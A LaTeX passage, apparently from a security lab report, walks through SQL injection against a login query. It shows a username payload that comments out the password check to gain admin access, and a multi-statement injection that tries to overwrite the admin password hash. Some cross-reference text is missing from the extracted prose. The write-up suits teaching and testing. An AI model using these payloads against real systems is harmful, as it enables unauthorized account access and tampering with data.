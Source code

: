 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Failed SQL injection due to hash},
label={lst:l4_t1p1_failatk},
frame=single]
"SELECT ID,name,locale,lastlogin,gender
FROM user WHERE (name = 'admin' OR email = 'admin')
AND pass = '6db581bfaa81c33a2b9af4355950ae2bfcc18384'"
\end{lstlisting}
\end{minipage}

There is no way to bypass the password hash, so we turn our attention to the username field, which is enclosed by single quotes. Since \emph{magic\_quotes\_gpc} is turned off, we have an opportunity to exploit a different SQL manipulation:

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Username injection input},
label={lst:l4_t1p1_usratk},
frame=single]
$user = "admin' ); #"
\end{lstlisting}
\end{minipage}

The input string in  expands into , which essentially tells the database server to just look for the user with name 'admin', and ignore the rest of the query (using the \# character). This grants us access to the admin access to the website.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Username injection expansion},
label={lst:l4_t1p1_usratkres},
frame=single]
"SELECT ID,name,locale,lastlogin,gender
FROM user WHERE (name = 'admin' ); #'
OR email = 'admin' ); #')
AND pass = 'da39a3ee5e6b4b0d3255bfef95601890afd80709'"
\end{lstlisting}
\end{minipage}

\subsubsection{Part 2 - Attempt to overwrite data}
To take this attack further, we try to set the admin password (i.e. overwrite data) using the username field using a multi-statement injection such as .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Overwrite injection attempt},
label={lst:l4_t1p2_owtry},
frame=single]
$user = "admin' ); UPDATE user
SET pass = 'c6dda4f283c9e13682ea3aef2e1732dd80b63cbc'
WHERE name = 'admin'; #"
\end{lstlisting}
\end{minipage}

